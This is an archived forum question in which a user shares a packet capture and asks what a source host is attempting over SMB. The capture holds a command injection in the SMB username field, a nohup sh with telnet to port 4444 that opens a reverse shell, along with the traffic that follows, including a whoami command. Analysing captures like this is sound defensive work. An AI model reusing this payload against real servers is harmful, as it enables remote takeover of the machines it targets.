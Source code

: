 +++
type = "question"
title = "Smb protocol analysis"
description = '''hi,  From my pcap file, I got the following portion of information but not sure what the source IP is trying to achieve.   frame time src ip dest ip protocol src port dest port infor  21769 147.373996 192.168.0.100 192.168.0.101 SMB 54500 139 Session Setup AndX Request, User: .&#92;/=`nohup sh -c &#x27;(slee...'''
date = "2015-02-27T09:57:00Z"
lastmod = "2015-02-27T09:57:00Z"
weight = 40137
keywords = [ "smb", "analysis" ]
aliases = [ "/questions/40137" ]
osqa_answers = 0
osqa_accepted = false
+++

<div class="headNormal">

# [Smb protocol analysis](/questions/40137/smb-protocol-analysis)

</div>

<div id="main-body">

<div id="askform">

<table id="question-table" style="width:100%;"><colgroup><col style="width: 50%" /><col style="width: 50%" /></colgroup><tbody><tr class="odd"><td style="width: 30px; vertical-align: top"><div class="vote-buttons"><div id="post-40137-score" class="post-score" title="current number of votes">0</div><div id="favorite-count" class="favorite-count"></div></div></td><td><div id="item-right"><div class="question-body"><p>hi, From my pcap file, I got the following portion of information but not sure what the source IP is trying to achieve.</p><p><code> frame   time            src ip          dest ip        protocol  src port dest port  infor  21769   147.373996  192.168.0.100   192.168.0.101   SMB 54500   139 Session Setup AndX Request, User: .\/=`nohup sh -c '(sleep 3807|telnet 192.168.0.100 4444|while : ; do sh &amp;&amp; break; done 2&gt;&amp;1|telnet 192.168.0.100 4444 &gt;/dev/null 2&gt;&amp;1 &amp;)'` 21770   147.394553  192.168.0.101   192.168.0.100   TCP 57926   4444    57926→4444 [SYN] Seq=0 Win=5840 Len=0 MSS=1460 SACK_PERM=1 TSval=6036562 TSecr=0 WS=32  0x0002 21771   147.394664  192.168.0.100   192.168.0.101   TCP 4444    57926   4444→57926 [SYN, ACK] Seq=0 Ack=1 Win=14480 Len=0 MSS=1460 SACK_PERM=1 TSval=13805079 TSecr=6036562 WS=1024 0x0012 21772   147.395838  192.168.0.101   192.168.0.100   TCP 57926   4444    57926→4444 [ACK] Seq=1 Ack=1 Win=5856 Len=0 TSval=6036562 TSecr=13805079    0x0010 21773   147.406146  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [SYN] Seq=0 Win=5840 Len=0 MSS=1460 SACK_PERM=1 TSval=6036563 TSecr=0 WS=32  0x0002 21774   147.406244  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [SYN, ACK] Seq=0 Ack=1 Win=14480 Len=0 MSS=1460 SACK_PERM=1 TSval=13805081 TSecr=6036563 WS=1024 0x0012 21775   147.407522  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [ACK] Seq=1 Ack=1 Win=5856 Len=0 TSval=6036563 TSecr=13805081    0x0010 21776   147.407694  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=1 Ack=1 Win=5856 Len=39 TSval=6036563 TSecr=13805081  sh line 1 : Trying : command not found 21777   147.407721  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=40 Win=15360 Len=0 TSval=13805082 TSecr=6036563 21778   147.410351  192.168.0.101   192.168.0.100   TCP 139 54500   139→54500 [ACK] Seq=102 Ack=376 Win=6880 Len=0 TSval=6036564 TSecr=13805073 21779   147.427226  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=40 Ack=1 Win=5856 Len=42 TSval=6036565 TSecr=13805082 sh: line 2: Connected: Command not found 21780   147.427309  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=82 Win=15360 Len=0 TSval=13805087 TSecr=6036565 21781   147.440335  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=82 Ack=1 Win=5856 Len=39 TSval=6036567 TSecr=13805087  sh: line 3:Escape: command not found 21782   147.440457  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=121 Win=15360 Len=0 TSval=13805090 TSecr=6036567  21783   147.448315  192.168.0.101   192.168.0.100   SMB 139 54500   Session Setup AndX Response, Error: STATUS_LOGON_FAILURE 21784   147.486578  192.168.0.100   192.168.0.101   TCP 54500   139 54500→139 [ACK] Seq=376 Ack=141 Win=15360 Len=0 TSval=13805102 TSecr=6036567 21785   147.663484  192.168.0.100   192.168.0.101   TCP 4444    57926   4444→57926 [PSH, ACK] Seq=1 Ack=1 Win=15360 Len=23 TSval=13805146 TSecr=6036562 echo X nxb0Jq26W1POGYH 21786   147.664095  192.168.0.101   192.168.0.100   TCP 57926   4444    57926→4444 [ACK] Seq=1 Ack=24 Win=5856 Len=0 TSval=6036589 TSecr=13805146 21787   147.664294  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=121 Ack=1 Win=5856 Len=18 TSval=6036589 TSecr=1380509 XnXb0J q26w1POGYH 21788   147.664321  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=139 Win=15360 Len=0 TSval=13805146 TSecr=6036589 21789   147.668188  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [PSH, ACK] Seq=1 Ack=139 Win=15360 Len=23 TSval=13805147 TSecr=6036589   echo X nxb0Jq26W1POGYH 21790   147.668708  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [ACK] Seq=139 Ack=24 Win=5856 Len=0 TSval=6036589 TSecr=13805147 21791   148.989787  192.168.0.100   192.168.0.101   TCP 54500   139 54500→139 [RST, ACK] Seq=376 Ack=141 Win=15360 Len=0 TSval=13805477 TSecr=6036567 21792   152.823638  192.168.0.100   192.168.0.101   TCP 4444    57926   4444→57926 [PSH, ACK] Seq=24 Ack=1 Win=15360 Len=7 TSval=13806436 TSecr=6036589 whoami</code></p><p>regards george</p></div><div id="question-tags" class="tags-container tags">smb analysis</div><div id="question-controls" class="post-controls"></div><div class="post-update-info-container"><div class="post-update-info post-update-info-user"><p>asked <strong>27 Feb '15, 09:57</strong></p><img src="https://secure.gravatar.com/avatar/ee86865607d3291a73854cd35e421022?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="Geos&#39;s gravatar image" /><p>Geos<br />
<span class="score" title="1 reputation points">1</span><span title="1 badges"><span class="badge1">●</span><span class="badgecount">1</span></span><span title="1 badges"><span class="silver">●</span><span class="badgecount">1</span></span><span title="1 badges"><span class="bronze">●</span><span class="badgecount">1</span></span><br />
<span class="accept_rate" title="Rate of the user&#39;s accepted answers">accept rate:</span> <span title="Geos has no accepted answers">0%</span> </br></p></div><div class="post-update-info post-update-info-edited"><p>edited 27 Feb '15, 10:48</p><img src="https://secure.gravatar.com/avatar/d2a7e24ca66604c749c7c88c1da8ff78?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="grahamb&#39;s gravatar image" /><p>grahamb ♦<br />
<span class="score" title="19834 reputation points"><span>19.8k</span></span><span title="3 badges"><span class="badge1">●</span><span class="badgecount">3</span></span><span title="30 badges"><span class="silver">●</span><span class="badgecount">30</span></span><span title="206 badges"><span class="bronze">●</span><span class="badgecount">206</span></span></p></div></div><div id="comments-container-40137" class="comments-container"><span id="40141"></span><div id="comment-40141" class="comment"><div id="post-40141-score" class="comment-score"></div><div class="comment-text"><p>Can you share a capture in a publicly accessible spot, e.g. <a href="http://cloudshark.org">CloudShark</a>?</p></div><div id="comment-40141-info" class="comment-info"><span class="comment-age">(27 Feb '15, 14:41)</span> Jaap ♦</div></div></div><div id="comment-tools-40137" class="comment-tools"></div><div class="clear"></div><div id="comment-40137-form-container" class="comment-form-container"></div><div class="clear"></div></div></td></tr></tbody></table>

</div>

</div>

